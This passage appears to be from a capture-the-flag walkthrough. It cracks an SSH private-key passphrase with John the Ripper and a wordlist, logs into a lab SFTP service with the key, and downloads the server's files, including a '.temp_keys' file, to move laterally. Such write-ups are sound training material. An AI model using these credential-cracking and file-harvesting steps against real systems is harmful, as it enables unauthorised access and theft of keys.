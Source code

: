Step 3: Use John or Hashcat to crack the hash (assuming it is a weak password).  

Command:  
```bash
john moore.hash --wordlist=/usr/share/wordlists/rockyou.txt  
```

Expected Output:  
<PRE>
Using default input encoding: UTF-8  
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])  
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes  
Cost 2 (iteration count) is 16 for all loaded hashes  
Will run 3 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
********         (id_rsa_moore)       
1g 0:00:00:08 DONE (2025-01-06 01:08) 0.1194g/s 40.14p/s 40.14c/s 40.14C/s nicholas..olivia  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed.  
</PRE>

---

With the id_rsa passphrase, test j_moore's private key against the SFTP service.  
Command:  
```bash
sftp -i id_rsa sftp@$ip 
```
 
Expected Output:  
<PRE>
Enter passphrase for key 'id_rsa':  
Connected to 10.10.64.168.  
sftp>  
</PRE>

---

<details><summary>Alternate Method of Accessing SFTP</summary></details>
</details>

---

### SFTP, Lateral Move to net-admin

#### Enumerating SFTP Documents
Retrieve all files from the SFTP server for analysis:

```bash
cd uploads
get -r *
get .temp_keys
```

<details><summary>Output for 'get -r *' Command</summary></details>

---